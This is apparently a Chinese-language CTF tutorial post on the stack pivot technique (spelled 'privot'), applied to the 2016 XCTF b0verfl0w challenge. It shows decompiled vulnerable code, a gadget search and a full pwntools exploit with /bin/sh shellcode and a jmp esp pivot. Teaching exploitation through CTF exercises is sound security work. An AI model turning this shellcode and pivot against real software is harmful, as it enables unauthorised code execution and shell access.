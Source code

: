 ```yaml
---
title: stack privot攻击技术示例
tags: [CTF, pwn, stack]
layout: post
categories: tutorials
---
```



# 什么是stack privot?

stack privot字面意思就是栈劫持，是指劫持栈指针指向攻击者放置有利用代码的空间去，比如指向了攻击者构造好的ROP链。

通常，在以下情况我们会考虑使用stack privot技术进行利用
* 可以控制的栈溢出的字节数较少，难以构造较长的ROP链
* 开启了PIE(Position-Independent Executables)保护，栈地址未知，我们可以将栈劫持到已知的区域。
* 其它漏洞难以利用，我们需要进行转换，比如说将栈劫持到堆空间，从而利用堆漏洞

如果我们想要劫持栈指针，那么我们所需要的gadget就必须能够控制栈指针，比如`pop sp` `jmp sp` `add sp` `sub sp`之类的gadgets都可能拿来使用。

# 漏洞分析

本节示例的漏洞程序可以从此处下载： [stack_privot](http://od7mpc53s.bkt.clouddn.com/stack_privot)

这是`2016 XCTF Quals-b0verfl0w`, 我们用它来演示这次的stack privot攻击

我们使用IDA反编译，可以看到如下：
``` c
signed int vul()
{
  char s; // [sp+18h] [bp-20h]@1

  puts("\n======================");
  puts("\nWelcome to X-CTF 2016!");
  puts("\n======================");
  puts("What's your name?");
  fflush(stdout);
  fgets(&s, 50, stdin);
  printf("Hello %s.", &s);
  fflush(stdout);
  return 1;
}
```

s的大小为0x20，而总共能写入的字符只有50，再加上ebp，我们能在溢出后实际利用的字节仅仅只有`50-0x20-4=14bytes`，只有这么小的空间，对我们构造攻击代码是十分困难的。我们选择使用stack privot技术，于是来查看一下程序中可以利用的gadgets有哪些

``` bash
➜  stack-privot ROPgadget --binary stack_privot --only 'pop|jmp|ret' | grep 'esp'
0x08048504 : jmp esp
```

那么这样的话，我们就可以借由`jmp esp`将执行流转移到栈上执行。而转移到栈上执行后，我们还需要对esp减上偏移(在返回地址时esp已经和ebp指向同一个地址)，使之转移到我们的buf中继续执行，而buf中我们事先就输入好了shellcode，那么我们在劫持完成后便可以获得一个shell

# 攻击代码

``` python
from pwn import *

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
jmp_esp = 0x08048504

payload = shellcode
payload += 'A' * (0x24-len(shellcode))
payload += p32(jmp_esp)
payload += sub_esp_jmp

io = process('./stack_privot')
io.recvuntil("What's your name?\n")
io.send(payload)
io.interactive()

```
